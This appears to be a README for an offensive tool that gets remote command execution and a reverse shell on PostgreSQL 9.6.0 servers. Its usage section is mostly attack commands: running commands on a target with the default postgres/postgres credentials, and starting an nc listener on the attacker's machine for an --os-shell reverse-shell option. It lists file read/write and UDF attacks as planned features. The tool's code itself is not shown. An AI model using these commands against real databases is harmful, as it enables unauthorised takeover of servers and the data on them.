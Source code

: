 # Postgre SQL RCE and Reverse Shell

Tested on PostgreSQL DB 9.6.0

## Install psycopg2
```bash
$ sudo apt-get install python3-psycopg2
```

## Usage
**Run command on target**

```bash
$ python3 psqlexp.py -T TARGET_IP -p 5432 -U postgres -P postgres --cmd
psqlexp# <custom command>
```

**Get Reverse shell from target**

```bash
[KALI]$ nc -lvnp 8080

$ python3 psqlexp.py -T TARGET_IP -p 5432 -U postgres -P postgres --lhost LOCAL_IP --lport 8080 --os-shell
```


# Future Developement
 - Add File read and Write Capability
 - Add UDF hack support
